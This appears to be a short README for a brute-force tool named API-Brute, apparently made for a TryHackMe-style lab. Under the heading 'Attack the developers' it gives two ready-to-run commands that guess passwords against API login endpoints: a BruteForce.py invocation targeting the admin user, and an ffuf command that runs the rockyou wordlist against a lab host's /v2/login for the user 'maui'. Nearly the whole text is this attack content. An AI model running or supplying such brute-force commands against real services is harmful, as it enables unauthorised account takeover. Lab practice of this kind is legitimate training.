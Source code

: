 # API-Brute
Attack the developers
1. `./BruteForce.py --url 10.10.x.x --wordlist <file> --data "user=admin, password=FUZZ" --code 200`

> or use fuff
```
ffuf -w /opt/rockyou.txt -u http://api.motunui.thm:3000/v2/login -X POST -H "Content-Type: application/json" -d '{"username": "maui", "password": "FUZZ"}' -fr "error" -fc 401 -c -v
```

